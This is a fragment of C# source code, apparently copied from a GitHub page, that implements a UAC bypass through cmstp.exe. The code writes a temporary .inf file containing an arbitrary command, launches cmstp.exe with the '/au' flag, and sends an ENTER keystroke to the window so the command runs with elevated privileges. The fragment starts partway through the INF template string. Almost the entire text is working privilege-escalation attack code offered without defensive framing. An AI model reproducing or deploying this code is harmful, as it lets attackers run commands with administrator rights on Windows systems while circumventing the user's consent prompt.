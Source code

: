 ```

";

    [DllImport("user32.dll")] public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
    [DllImport("user32.dll", SetLastError = true)] public static extern bool SetForegroundWindow(IntPtr hWnd);

    public static string BinaryPath = "c:\\windows\\system32\\cmstp.exe";

    /* Generates a random named .inf file with command to be executed with UAC privileges */
    public static string SetInfFile(string CommandToExecute)
    {
        string RandomFileName = Path.GetRandomFileName().Split(Convert.ToChar("."))[0];
        string TemporaryDir = "C:\\windows\\temp";
        StringBuilder OutputFile = new StringBuilder();
        OutputFile.Append(TemporaryDir);
        OutputFile.Append("\\");
        OutputFile.Append(RandomFileName);
        OutputFile.Append(".inf");
        StringBuilder newInfData = new StringBuilder(InfData);
        newInfData.Replace("REPLACE_COMMAND_LINE", CommandToExecute);
        File.WriteAllText(OutputFile.ToString(), newInfData.ToString());
        return OutputFile.ToString();
    }

    public static bool Execute(string CommandToExecute)
    {
        if(!File.Exists(BinaryPath))
        {
            Console.WriteLine("Could not find cmstp.exe binary!");
            return false;
        }
        StringBuilder InfFile = new StringBuilder();
        InfFile.Append(SetInfFile(CommandToExecute));

        Console.WriteLine("Payload file written to " + InfFile.ToString());
        ProcessStartInfo startInfo = new ProcessStartInfo(BinaryPath);
        startInfo.Arguments = "/au " + InfFile.ToString();
        startInfo.UseShellExecute = false;
        Process.Start(startInfo);

        IntPtr windowHandle = new IntPtr();
        windowHandle = IntPtr.Zero;
        do {
            windowHandle = SetWindowActive("cmstp");
        } while (windowHandle == IntPtr.Zero);

        System.Windows.Forms.SendKeys.SendWait("{ENTER}");
        return true;
    }

    public static IntPtr SetWindowActive(string ProcessName)
    {
        Process[] target = Process.GetProcessesByName(ProcessName);
        if(target.Length == 0) return IntPtr.Zero;
        target[0].Refresh();
        IntPtr WindowHandle = new IntPtr();
        WindowHandle = target[0].MainWindowHandle;
        if(WindowHandle == IntPtr.Zero) return IntPtr.Zero;
        SetForegroundWindow(WindowHandle);
        ShowWindow(WindowHandle, 5);
        return WindowHandle;
    }
```